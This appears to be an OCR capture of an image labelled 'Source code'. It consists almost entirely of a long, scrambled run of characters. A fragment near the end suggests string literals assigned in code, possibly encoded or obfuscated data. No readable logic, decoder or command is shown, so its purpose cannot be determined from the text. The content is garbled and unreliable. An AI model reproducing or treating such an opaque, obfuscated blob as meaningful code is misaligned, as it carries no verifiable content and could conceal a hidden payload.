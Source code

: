 {7aPr-srfPL{3:7oXE:7P-:s73x6s{6Poara3--:X6a:PPXaC7--{--sXPC6*{{P7a6PofsCf7:d6{o:s-f3rr:saXPfXC66*sXb-aXaC7*X{fCX66:37J0C:k66o{sP6{b63af,r73cPfX:a-f3X{CC*o{67X*P:r7**s:-67MIsff{o-33f;rCshP6r0aP-:X*Ca*o{7Ca*f:{7-AX:56Cors66roP3sf*raaoPaXXaf73X-C3-B{a7r*7:{7PfP:*6aoosCfXof3:f-r33/PCoea6-{XPC{o-{{{3P67::CsCo*6{2asCfro63s7rP*{Xa{*oXPC:X7{fr::77oPCs:X7fs:76rF*safoofr7afPX36Prr9aC-rXP:r6o*-:**:{777KX:f63-M{s3XPPr7a6rrP{XoX6&C{6P3X-r-{XfP*X*sa7:{Zaoa{-s{*:f*X3s7{s3w-ss*a:o{ar3-{6CXX{7XCo7:*3:76XTfs3CJP{X{3f-sXPa:-PXCPPXaCo-7{XCf*::-sa*-77-{P7{{{rfrP*Lao-sCPXrfa:PJo{X07oRs:r77#Cs3PrV-s366Xa3Dfao*f:P-X6{:%6{7fabo{*-stoP6Q{sPrC:a-3-pgs:s66o{sPfa*ar-CX--Xf6o--:rCX*;{f-/r{37-{:s7-X*-F3foX:sf:o-336-ffarP6X{aa-sX*CaPoX37X*f::7-B3:-6C*rs7f{oP3sf*rasLP7oX33-:X-C3-K{CC3*6X{7fZs:*6aoos76:ofsX6*r33*PCrfa6-{XP3sP{{aC4*7:r7fKo:-7:f6sC61o6s3fPrs3*fsr6a7P)Xfas--{3CU-3XC76*/:P7sl*safo_a:7ffoA3-f-r?aC-rrC3--PXcC*--:o77qX{7Ca_-:Q6+oo3rf6r{s6f3r*3t-oXXCX-f{:af6a{ICOvr{*6{cPss7P1{3o6hrXs7P:r-a3f-xBCrP_{{Cf*s{*7a-*X*6X*/s:66o3sxfCwNs:P{owasPsXaCo-7{X3**:{P73*X:C7ww6:{6foss*fao637Prrfa:PoX3aJ-C{oC6*{{P7s**:a6o+ssX6fo:s66foI3CPrrPXPCX*7{;C7*r{P7*LXsX*6:r7t,Csr6PPrXo3-P*3:7*r7aXPfX3{6Ca*o{-7{XsC7*X963X67or37Psra3fo:XCas-o3aa-*aX6Pf*{s36Po63:-CrsaCR{:a6Cors6fs*7r33=PP:*C7-{afPfX-C3-tX3:**6:{7PD::*6aoo:a6*of3{f-r:3%PCXrs6PoXPC:-*{37o*s:XC7-C:-6{dzssfro63{fPrX3*P{XoaC-XXfC:--XrC=*a:r73u{:P6sV*s3foo73Xffr:3fP3r9{6-rX6C{-f{sC-*a:o3oyX:f6:iPs36loC3rf6r{3Pf{r*aa-oXaXXP:rXC-a*:o67{X:CSX:o7XP^{-fC{rs{3Cf6r-a3PkX63{7aca{w67oo:CfoZP7Oqas:6-o33r32-rrCPor:asP*XaCX6**f:L7oD-:76r:3P3r*363-f6{*:osX3a-C6C763*6:{a3Cp{CCoP-C6KPqsP:*CX7:676s-a6-X}:&{r66{sP7r:a*-a{oCffD*f:Pfrb-ssf:rXa-f7rX33*{Xfa{P6aoPfX:a--3XJCChr=f7r{fC7-frCC3ora6rPfroC33ftrCa{CC*a{:7sXPPPfCfwfXCC*o{-{3:P7Pors6f{o*{*a:-7{:CXNa{:7C-7:37X{37_srsaR-C*sCX::os36fof3:f-rCsr6a-:{*Cf*PC{CsC7X{67oCC3fOo-63*7sCfro6srsRrs3*Par{a7-XXf3:P-{3C.*C:r76**:PCs*6safoo73Xffos3-63o:aC-rX6C{-P{XC*Pa{o772X:f6:1-:P6,<33of6rX3Pf:r*aa-oo7aC-f{{C-*s{v7:tr{Cs*MPs{6*?a3of7rXs766r-a{Ppr3Cr-6{{a6Pf{*7{1o{f6Xdfs:7fo:sHf{rr37P{rPasfProCo-{{XC{*:{-73--X*6rv{s{6ooss*fa(*s6PXr{a:PaX3aD-Cr :f*{{{7s*{:a6oG7:o63o:s{f3o33CPrr63r6{Xsa{-aX*C7*X{fCX-o:37{_C:666o{sP6{p-3af{r7arPfX:a--3rXCC*o{6C3*P:{7**a{P67oXsf6{o-3sf,rC3PP6X{aP-:X*Ca*o{77X*f::7-b3:56CoosCf{oP3sf*6*aoP7XXaf-:X-C3-MF#7r*6:{7fcs:*6aoos7fXof3of-r33UPsrPa6-{XPCa7PZf:C67{L7{R::-63or{s3XffrC76-srVP:e*a7-XXfC376*a:o7-8{Cs*7:Xs6PXo73rP7XsaaPf3:CC-s{oPa--:aC6Xf:oPCr6s:6t{*aof-s{6:oC3rf6rsXsaf*X{CCX-6{s7a*f:f*3{37C0r:67rf7ss6*oasPf7rX3ffXoCa3P*XCCo-6{{CPPsX77a*I:76rZfsX6-h:sXfCo*36PorPasP*Xa3f-7X*Cf*{{-73*p:C77.6sX6Pors*faro376Prfa:P-X3au-3{rC66s{P7s**:36o8CsX6fPfs-f3oW3aPrr6a{PPXsa*-aX-C7*X{f7r*s:37chCs{aff3XoaaP*r6aXr7aXPfX{aPP-XVCC*r{:C7*P:s7*L:so6CoXs6f:o7s6fzrCarPaX{af-sX6af*o{77X*s::7PI3:Nsrors7f{oP3sf*ra:oPoXXa6-:XPC3-P{CC--*:{7Pds:36aNzs7fXf:3:fPr33YPCXra66{X{Cs--{aCG*7:o7f,:r:63dbsCfoo63{fPrs3*PaXoas-XXfC:-6r:C0*C:r7Pfo0-s3f{o77fZ5sCao-Crpaa-?{fC-*ra67**f:3--v{s-6o:rCC**:f36PPs{C3f*37Por*aa-oXf:o7t*P:-*{{a7CIr:66s-7o3sifP{*a7P{3Cf7r-a3P(X6{67oqa:-7a*c:66Poo3oxf:f6-o3sL63P*36P{rParP*XaCoPar6Cf*{{-7:*h:C6r-6{-6Po:s*f3ro33PXo7saP-X{a+-a{rC6*{{P7o**:{6odCsX6fo:s-fsoA3aPrr3a{PPXsa*-s{oC7*X{f7:*f:37nf6sr66o{sffso-3aPo*oaXPfX:aP-3XcCC*r{67{*P:X7*jaso67orsff:o63of%rCarPPo3{XCX**{7-i{r7X*f::7a6*:y6Corssf{of3sf*ra3Pf-XXaf-:XCC3-*{C7r7{:{7f&s:*6aoos7CXoX3:fPr33PPCXoa6PtXoCs-*{aC7*7:r7f;:/363G*sCfro63{fP*s3sParJa7P2XfCX--{3s3*C:r76pX:P6sd*safoo73XfCr:3-P3rjaaP*X:C{-P{s7of*o:srfXi-6:d-ss63oC3rf6o-3XPsr*aaP-X7Cr-f{{C-*X{{7Cwr:66o)Ps:6*o{s:f7rX3ff*r-asPZXCX6-6{XCP*s{*7a or777qfs{6-o:sufarr33farPasP*rcCo-C{XCfC-{-7s*T:C6rm6s{aPbPs*f3ro3aPXrCa:P-*-a,-C{rC7*{{P7s**:a6oy7';FbyFBrwKPjXuvCUug='z90B4h}n?pSx(6,ABxAn(ApphA04SnS,?}4?D},_p,}6Bhx?xS4,9p,0Sx}Anx4nL4(xpA9(B?(p(B?A4(9B,n}4n999 x6np4hx0AS((4hphB9A6(SBnnA4AAS9px}n04,xxAB(hp,p,BSA}(BBOn?4pAB90xAnx4nx4A((6SnxBpr460pB}#0A0pAhx0np46(S,9npBh_pcB(A?(hB0nS4xBhBhS0hS(x9}xBh29(B4nh,AhxBn(4xA63S6,h?}Amn29?nh}0p0,,?x0n,4Q(46xn00A4r(0x(?pF(9},(SxBgB,(npxS(}jAn(hp4h9}0,pS(Sn0,BxDA?pS!B?B0x??nBA46,,S0S?BnXn6Bpxhp9,ABx(?n4,9S(A,4xq}6B4L??hpSB40,x4xnBx469Bp,S406l990p(p90n,n(B?7p99}99Shh6nSBnA6(A4Sh?ApS6xB499709Shp,B?A}xx?ASJ0h9(,pn6BhhhlA6pSh}n,x:0pph}}n,xxBnSBBB69B60hn}h,,(06Bh?0B,6xh?449h06hpA}?}#,nA4(?40hpA9,xn94wA?!}Snhx}9A+(n?php906nS6np4J ,6}??p6}p0},6(9B,hp,6,n}6ngA4r}((hnh6,}xS(x4,4p6,S6}p4n2A(x6(h,0(Anxxn9?,4x99,Bh,}(*6(9(nhh04Bhxn??46*S(ASBx4B?%9Axpn4ph,0S,nS,?0AA:6S,ngB4dG(}pE4nhp9AS0xp?Bh9(}6hpB}}0nQn(4?Sh(6n,}S4nnB?,9p6S,BW,?ehpnp,}pAJ,Bxhn4ApCn6nSn}00AAhn??}*A,hAS?0B,An9469pn}p,4A0pB4n466,SSxx}6A,(BpnS?h(Ahx(xnB6h09,6xS0n}ABw9S0}40pA0xSn0?44S(6,4S,n(A9utx,p9h0B0,Axh?nK099(AS0}Bt((?6phx9B0x(0(9?xh090,aS0BAB024(B4?h}0}A}x9Bh4B,4p?p,0(AxF(p2h}9A,9S}nS?x9BuxS0pS0qBn(A(p4A9,6},xxnn4Bx+A?(pSBxA6(4?Ah}0B64,}S(0A4}926,hB}00+ABx4p4h99n,p}4nBB9j4(h},0SBxx6nhp904606hn}}n1(Appn}P0,96xx?446496AS?ng}h=B((px?p0n,A(9S6hB9xs?S}},B?0((SpBhAh